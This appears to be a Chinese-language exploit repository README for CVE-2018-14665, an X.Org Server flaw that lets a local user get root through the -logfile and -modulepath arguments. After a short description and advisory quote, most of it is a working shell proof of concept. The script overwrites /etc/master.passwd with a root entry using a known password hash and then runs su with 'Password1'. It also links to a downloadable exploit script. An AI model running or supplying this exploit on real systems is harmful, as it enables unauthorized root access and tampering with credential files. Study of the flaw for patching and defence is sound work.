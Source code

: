 # CVE-2018-14665 


## 0x00 简介

印度安全研究员Narendra Shinde在X.Org Server软件包中发现了一个普通账号提权root的高危漏洞（CVE-2018-14665），它影响了主要的Linux发行版，包括OpenBSD，Debian，Ubuntu，CentOS，Red Hat和Fedora。

Xorg X项目提供了X Window系统的开源实现（也就是X11，或简称X，它是位图显示的窗口系统。它提供了GUI环境的基本框架：在显示设备上绘制和移动窗口以及交互用鼠标和键盘。

Shinde发现Xorg X服务器无法正确处理和验证至少以下两个命令行参数的参数：

`-modulepath`：设置搜索Xorg服务器模块的目录路径，

`-logfile`：为Xorg服务器设置新的日志文件，而不是在大多数平台上使用位于/var/log/Xorg.n.log的默认日志。

根据Narendra Shinde的说法，低权限用户可以利用它来执行恶意代码并覆盖系统上的任何文件

两年多前，该漏洞被引入X.Org服务器1.19.0软件包中。

Xorg发布了有关CVE-2018-14665漏洞的安全公告。

```
“当X服务器以提升的权限运行时（即，安装Xorg并设置setuid位并由非root用户启动）。”读取Xorg  建议。 

“-modulepath参数可用于指定要在X服务器中加载的模块的不安全路径，允许在特权进程中执行非特权代码。

由于在解析选项时检查不正确，-logfile参数可用于覆盖文件系统中的任意文件。“

```
## 0x01 root

安全专家Matthew Hickey还发布了一个  概念验证  漏洞利用代码，可以让攻击者以3个或更少的命令接管易受攻击的系统。

Openbsd 的#0day LPE 通过 CVE-2018-14665 可以从远程 SSH 会话触发, 不需要在本地控制台上。攻击者可以从字面上接管3命令或更少的受影响的系统。

利用脚本：https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

![](./root.jpg)

#### POC:

```
#!/bin/sh
# local privilege escalation in X11 currently
# unpatched in OpenBSD 6.4 stable - exploit
# uses cve-2018-14665 to overwrite files as root. 
# Impacts Xorg 1.19.0 - 1.20.2 which ships setuid
# and vulnerable in default OpenBSD. Errata: was 
# unpatched 0day for a day on release by Xorg for
# OpenBSD systems - patched 26-10-2018.
# 
# Credit for cve-2018-14665 goes to Narendra Shinde.
# Theo explains why this flaw made it into OpenBSD
# stable releases (tested 6.3 & 6.4) as 0day himself 
# here:
#
# https://marc.info/?l=openbsd-tech&r=1&b=201810&w=2
#
# "That is the first localhost root hole in quite a 
# long time." - Theo de Raadt 25/10/18
#
# This exploit works on OpenBSD 6.3 and 6.4, ymmv.
# requires the ability to run "su" and a local
# account. Run this exploit once and it will backup
# the original passwd file to /etc/master.passwd.old
#
# - https://hacker.house
echo [+] OpenBSD 6.4-stable local root exploit
cd /etc
Xorg -fp 'root:$2b$08$As7rA9IO2lsfSyb7OkESWueQFzgbDfCXw0JXjjYszKa8Aklt5RTSG:0:0:daemon:0:0:Charlie &:/root:/bin/ksh' -logfile master.passwd :1 &
sleep 5
pkill Xorg
echo [-] dont forget to mv and chmod /etc/master.passwd.old back 
echo [+] type 'Password1' and hit enter for root
su -
```

#### 注意：成功后root的新密码为Password1，原来系统的/etc/passwd文件会备份在/etc/master.passwd.old


## 0x02 参考链接

```
https://twitter.com/hackerfantastic

https://securityaffairs.co/wordpress/77402/hacking/cve-2018-14665-linux-distros.html

https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

```




